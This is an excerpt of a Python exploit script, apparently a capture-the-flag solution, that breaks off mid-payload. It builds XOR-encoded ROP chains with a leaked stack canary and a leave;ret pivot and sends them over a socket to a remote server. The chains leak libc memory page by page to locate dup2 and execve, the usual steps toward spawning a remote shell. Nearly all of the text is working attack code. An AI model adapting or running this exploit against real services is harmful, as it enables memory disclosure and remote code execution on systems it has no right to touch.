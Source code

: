 ```python
    execve_remote_addr = 0

    # scan down
    print "Scanning down"
    while dup2_remote_addr == 0 or execve_remote_addr == 0:
        try:
            payload = "davide" + "AA"
            payload += p64(gadget_pop_rdi_ret ^ Ds)
            payload += p64(0x4 ^ Ds)
            payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)
            payload += p64(libc_page ^ Ds)   # buffer = page
            payload += p64(0x1337)   # pop r15, dont-care
            payload += p64(gadget_pop_rdx_ret ^ Ds)
            payload += p64(page_size ^ Ds)  # length
            payload += p64(text_section_write_plt ^ Ds)
            # Pad to the end of buffer
            payload += "B" * (1032 - len(payload))
            payload += p64(canary ^ Ds)
            payload += p64(buffer_addr ^ Ds)
            payload += p64(text_section_leave_ret ^ Ds)

            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(SERVER)
            s.recv(4096)  # server hello
            s.send(payload)

            page_data = s.recv(page_size)
            if len(page_data) == 0:
                break

            if dup2_start in page_data:
                dup2_remote_addr = libc_page + page_data.index(dup2_start)
                print "Found dup2 @ {}".format(hex(dup2_remote_addr))

            
            if execve_start in page_data:
                execve_remote_addr = libc_page + page_data.index(execve_start)
                print "Found execve @ {}".format(hex(execve_remote_addr))


            s.close()
            libc_page -= page_size  # scan down

        except EOFError:
            break


    # scan up
    print "scanning up"
    libc_page = unpack(write_libc) & 0xfffffffffffff000
    while dup2_remote_addr == 0 or execve_remote_addr == 0:
        try:
            payload = "davide" + "AA"
            payload += p64(gadget_pop_rdi_ret ^ Ds)
            payload += p64(0x4 ^ Ds)
            payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)
            payload += p64(libc_page ^ Ds)   # buffer = page
            payload += p64(0x1337)   # pop r15, dont-care
            payload += p64(gadget_pop_rdx_ret ^ Ds)
            payload += p64(page_size ^ Ds)  # length
            payload += p64(text_section_write_plt ^ Ds)
            # Pad to the end of buffer
            payload += "B" * (1032 - len(payload))
```